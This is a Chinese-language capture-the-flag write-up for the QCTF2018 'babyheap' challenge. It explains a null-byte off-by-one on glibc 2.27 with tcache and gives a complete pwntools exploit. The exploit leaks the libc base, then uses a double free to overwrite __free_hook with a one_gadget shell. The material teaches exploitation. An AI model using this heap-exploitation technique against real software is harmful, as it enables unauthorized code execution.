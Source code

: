 # QCTF2018 babyheap
## Author: 文火
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这题是有tcache机制的libc-2.27的题，为此特意装了一个Ubuntu18（啊还是屈服了，特效真好看真香）。不扯淡了，先放一个tcache的[学习资料](https://www.secpulse.com/archives/71958.html)，嗯这就够了。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>程序逻辑很简单，一眼就看出null byte off by one。因为有tcache的机制(**注意在tcache的堆小于7个，而且不大于0x408**)所以做法特殊一些，这里用shrink chunk的方法来做，这里有个差不多做法的，有[图解](https://bbs.pediy.com/thread-225973.htm)（其实tcache里把小于0x408的堆都看成是不安全的fastbin这样理解会不会更简单些，溜了溜了）。</font></br>

leak
=====

```python
#----------------------------
# leak, leak, step the first
# null byte off by one to chunk-shrink overlapping

add(0x18,'\n')                          #0
add(0x500,'a'*0x4f0+p64(0x500)+'\n')    #1
add(0x420,'\n');                        #2
add(0x18,'\n');                         #3

delete(1)
delete(0)
add(0x18,'a'*0x18)                      #0
add(0x480,'\n')                         #1
add(0x60,'\n')                          #4
delete(1)
delete(2)

add(0x480,'\n')                         #1
show()
rv('4 : ')
libc_base=u64(p.recv(6)+2*'\x00')-0x3ebca0
log.info(hex(libc_base))
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>根据tcache的缓存机制，直接double free都不带检查的，所以后续就很常规了：</font></br>

```python
#----------------------------
# easy double free and pwned!

add(0x60,'\n')                          #2
delete(2)
delete(4)
add(0x60,p64(free_hook+libc_base)+'\n')
add(0x60,p64(free_hook+libc_base)+'\n')
add(0x60,p64(one_gadget+libc_base)+'\n')

delete(0)
p.interactive()

```

Exploit
======

```python
from pwn import *

DEBUG=1

p=process('./babyheap',env={'LD_PRELOAD':'./libc-2.27.so'})
elf=ELF('./libc-2.27.so') 

free_hook=elf.symbols['__free_hook']
one_gadget=0x4F322

if DEBUG == 1:
    context.log_level='debug'
    gdb.attach(p)

def rv(c):
    p.recvuntil(c)

def sd(c):
    p.send(c)

def sl(c):
    p.sendline(c)

def add(size,content):
    rv('choice :\n')
    sl('1')
    rv('Size: \n')
    sl(str(size))
    rv('Data: \n')
    sd(content)

def delete(index):
    rv('choice :\n')
    sl('2')
    rv('Index: \n')
    sl(str(index))

def show():
    rv('choice :\n')
    sl('3')

#----------------------------
# leak, leak, step the first
# null byte off by one to chunk-shrink overlapping

add(0x18,'\n')                          #0
add(0x500,'a'*0x4f0+p64(0x500)+'\n')    #1
add(0x420,'\n');                        #2
add(0x18,'\n');                         #3

delete(1)
delete(0)
add(0x18,'a'*0x18)                      #0
add(0x480,'\n')                         #1
add(0x60,'\n')                          #4
delete(1)
delete(2)

add(0x480,'\n')                         #1
show()
rv('4 : ')
libc_base=u64(p.recv(6)+2*'\x00')-0x3ebca0
log.info(hex(libc_base))

#----------------------------
# easy double free and pwned!

add(0x60,'\n')                          #2
delete(2)
delete(4)
add(0x60,p64(free_hook+libc_base)+'\n')
add(0x60,p64(free_hook+libc_base)+'\n')
add(0x60,p64(one_gadget+libc_base)+'\n')

delete(0)
p.interactive()

```